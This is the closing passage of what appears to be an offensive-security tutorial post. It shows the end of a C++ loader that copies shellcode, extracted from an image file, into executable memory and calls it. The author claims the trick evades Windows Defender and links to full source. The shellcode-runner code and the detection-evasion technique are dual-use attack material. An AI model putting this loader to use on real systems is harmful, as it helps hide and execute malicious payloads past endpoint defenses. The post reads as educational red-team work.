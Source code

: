 ```cpp

        // Copy the binary content to the allocated memory
        memcpy(execMemory, buffer, size);

        // Cast the memory to a function pointer and execute
        typedef void(*Function)();
        Function func = reinterpret_cast<Function>(execMemory);
        func();  // Call the function (execute the binary content)

        // Free memory and resources
        VirtualFree(execMemory, 0, MEM_RELEASE);
    }
    else {
        std::cerr << "Failed to read file!" << std::endl;
        delete[] buffer;
        return -1;
    }

    // Cleanup
    delete[] buffer;

    return 0;
}
```

The result?

![image](https://github.com/user-attachments/assets/d8ccf6fc-8dd9-4b73-884f-abb735a92ba5)

And there you have it folks.  We successfully copied shellcode into an innocuous image, extracted it, and executed it.  Oh, and what about EDR?  Nada.  Well, at least in the case of Windows Defender.  As has been recently brough to my attention and rightfully so, I'm only testing against Defender and that's not exactly the best gauge for ensuring we bypassed EDR.  In the future, I'll try and showcase proof of EDR bypass from other solutions.

![image](https://github.com/user-attachments/assets/ade3c11c-0195-4daa-9ac7-254a62edfd79)

The hypothesis of the cute picture of Phoebe dissuading the EDR solution from detecting us proved correct!  LOL 😆  As always, full source code for both hiding the shellcode and extracting it from the image can be found at my github repo.  Hope you learned something and take care!


